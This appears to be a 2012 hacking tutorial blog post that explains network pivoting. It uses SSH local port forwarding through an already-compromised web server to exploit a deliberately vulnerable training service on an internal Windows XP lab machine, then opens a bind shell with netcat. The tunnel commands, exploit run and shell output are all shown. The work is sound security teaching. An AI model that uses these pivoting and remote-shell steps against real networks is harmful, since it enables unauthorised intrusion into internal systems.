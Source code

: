 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 1: SSH"
date: 2012-10-06 18:10:26 -0400
comments: true
categories: howto hacking
redirect_from: /2012/10/introduction-to-pivoting-part-1-ssh.html
---
```


Pivoting is a technique that allows attackers to use a compromised system to attack other machines in the same network, or more devastatingly, machines in another network that the compromised machine has access to. There are several techniques that can be used to pivot deeper into the network, and I'll be describing some of them in the next few articles. I've found that this topic can be a bit confusing to beginners, and I hope that these articles will help clear things up. In this article, we'll look at pivoting with SSH.

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-06/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine.

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).

### The attack

Since we have SSH access to the web server, we can use SSH port forwarding to use it as our pivot. We run the following command on our attacking machine: 

```
ssh -L 127.0.0.1:10000:192.168.63.142:10000 webmaster@192.168.81.181
```

This tells SSH that we want to forward connections to port 10000 on our machine to port 10000 on 192.168.63.141 (Windows XP) through 192.168.81.181 (web server).

Once we've authenticated and logged in to 192.168.81.181, we can verify that port 10000 is running on our machine: 

```
# netstat -antp | grep 10000
tcp        0      0 127.0.0.1:10000         0.0.0.0:*               LISTEN      8230/ssh
```

We're ready to run our exploit. Our exploit takes two arguments, the target's IP address and the port to connect to. Since we are pivoting our attack through the web server, we specify port 10000 on our own machine: 

```
# ./serverstrcpy.py 127.0.0.1 10000
[+] sending payload of length 1479
[+] done, check port 4444 on target
```

The exploit claims to be successful, and we can verify it by using netcat to connect to port 4444 on the target. Keep in mind that we do not have direct access to the target, so we have to use SSH's local port forwarding again. This time, we forward port 4444 on our machine to port 4444 on the target: 

```
ssh -L 127.0.0.1:4444:192.168.63.142:4444 webmaster@192.168.81.181
```

Now when we connect to port 4444 on our machine with netcat, we get a shell on the Windows XP machine: 

```
# nc -v 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\WINDOWS\system32>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\WINDOWS\system32>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the Windows XP machine on the internal network. That concludes the first part of this series of pivoting articles. In part 2, we'll look at using Proxychains to pivot our exploit and hack into the Windows XP machine. 

